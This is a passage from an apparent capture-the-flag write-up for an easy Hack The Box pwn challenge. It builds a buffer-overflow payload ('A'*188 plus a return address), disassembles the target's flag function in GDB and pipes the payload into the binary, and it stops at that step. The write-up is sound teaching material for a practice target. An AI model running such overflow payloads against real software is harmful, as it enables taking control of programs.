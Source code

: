 {% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + '\\xe2\\x91\\x04\\x08'" > eip_flag
{% endhighlight %}

Before running this malicious string, recall that the program exits if the file flag.txt does not exist. This file was simply created using the touch command as follows\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $touch flag.txt
{% endhighlight %}

The comparison within the function in question starts at flag+100 (or 0x08049246). This can be found using the disass (short for disassemble) command within GDB\:

{% highlight bash %}
pwndbg> disass flag                                                                                                                                                    
Dump of assembler code for function flag\:                                              
  0x080491e2 <+0>\:     push   ebp                                                     0x080491e3 <+1>\:     mov    ebp,esp                                                 0x080491e5 <+3>\:     push   ebx                                                     0x080491e6 <+4>\:     sub    esp,0x54  
  0x080491e9 <+7>\:     call   0x8049120 <__x86.get_pc_thunk.bx>  
  0x080491ee <+12>\:    add    ebx,0x2e12  
  0x080491f4 <+18>\:    sub    esp,0x8  
  0x080491f7 <+21>\:    lea    eax,[ebx-0x1ff8]  
  0x080491fd <+27>\:    push   eax  0x080491fe <+28>\:    lea    eax,[ebx-0x1ff6]  
  0x08049204 <+34>\:    push   eax  0x08049205 <+35>\:    call   0x80490b0 <fopen@plt>  
  0x0804920a <+40>\:    add    esp,0x10  
  0x0804920d <+43>\:    mov    DWORD PTR [ebp-0xc],eax  0x08049210 <+46>\:    cmp    DWORD PTR [ebp-0xc],0x0  
  0x08049214 <+50>\:    jne    0x8049232 <flag+80>  
  0x08049216 <+52>\:    sub    esp,0xc  
  0x08049219 <+55>\:    lea    eax,[ebx-0x1fec]  
  0x0804921f <+61>\:    push   eax  0x08049220 <+62>\:    call   0x8049070 <puts@plt>  
  0x08049225 <+67>\:    add    esp,0x10  
  0x08049228 <+70>\:    sub    esp,0xc  
  0x0804922b <+73>\:    push   0x0  
  0x0804922d <+75>\:    call   0x8049080 <exit@plt>  
  0x08049232 <+80>\:    sub    esp,0x4  
  0x08049235 <+83>\:    push   DWORD PTR [ebp-0xc]  
  0x08049238 <+86>\:    push   0x40  
  0x0804923a <+88>\:    lea    eax,[ebp-0x4c]  
  0x0804923d <+91>\:    push   eax  0x0804923e <+92>\:    call   0x8049050 <fgets@plt>  
  0x08049243 <+97>\:    add    esp,0x10  
  0x08049246 <+100>\:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef  
  0x0804924d <+107>\:   jne    0x8049269 <flag+135>  
  0x0804924f <+109>\:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d  
  0x08049256 <+116>\:   jne    0x804926c <flag+138>  
  0x08049258 <+118>\:   sub    esp,0xc  
  0x0804925b <+121>\:   lea    eax,[ebp-0x4c]  
  0x0804925e <+124>\:   push   eax  0x0804925f <+125>\:   call   0x8049030 <printf@plt>  
  0x08049264 <+130>\:   add    esp,0x10  
  0x08049267 <+133>\:   jmp    0x804926d <flag+139>  
  0x08049269 <+135>\:   nop  0x0804926a <+136>\:   jmp    0x804926d <flag+139>  
  0x0804926c <+138>\:   nop  0x0804926d <+139>\:   mov    ebx,DWORD PTR [ebp-0x4]  
  0x08049270 <+142>\:   leave   0x08049271 <+143>\:   ret   End of assembler dump.

Prior to piping the contents of eip_flag into the binary, a breakpoint was set at 0x08049246 to allow further investigation into the EBP register.

pwndbg> b *0x08049246                                                                  
Breakpoint 1 at 0x8049246

Finally, the malicious string can be run\:

pwndbg> r < eip_flag  